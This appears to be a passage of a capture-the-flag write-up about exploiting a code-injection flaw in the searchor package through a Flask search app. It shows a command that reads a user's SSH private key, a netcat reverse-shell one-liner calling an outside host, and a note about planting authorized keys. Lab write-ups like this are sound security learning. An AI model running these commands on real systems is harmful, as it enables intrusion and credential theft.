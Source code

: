 ```
python3 tool.py "cat /home/svc/.ssh/id_rsa"
200
('https://www.youtube.com/results?search_query=', 256, 'https://www.youtube.com/results?search_query=')
```

After throwing a few revshels form revshells.com, finally got one to stick
```
python3 tool.py "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.39 4242 >/tmp/f"
```

Getting the user flag, and dropping an authorized keys in ~svc to get a propper shell
```
$ cd
$ pwd
/home/svc
$ wc -c user.txt
```

Just checking the app to see if our assumption was correct
```bash
svc@busqueda:/var/www/app$ vim app.py
```

And yea, it is a super simple flask app, that calls the cli of searchor through subprocess, triggering the vulnerable code in main
```python
from flask import Flask, render_template, request, redirect
from searchor import Engine
import subprocess


app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html', options=Engine.__members__, error='')

@app.route('/search', methods=['POST'])
def search():
    try:
        engine = request.form.get('engine')
        query = request.form.get('query')
        auto_redirect = request.form.get('auto_redirect')

        if engine in Engine.__members__.keys():
            arg_list = ['searchor', 'search', engine, query]
            r = subprocess.run(arg_list, capture_output=True)
            url = r.stdout.strip().decode()
            if auto_redirect is not None:
                return redirect(url, code=302)
            else:
                return url

        else:
            return render_template('index.html', options=Engine.__members__, error="Invalid engine!")

    except Exception as e:
        print(e)
        return render_template('index.html', options=Engine.__members__, error="Something went wrong!")

if __name__ == '__main__':
    app.run(debug=False)
```

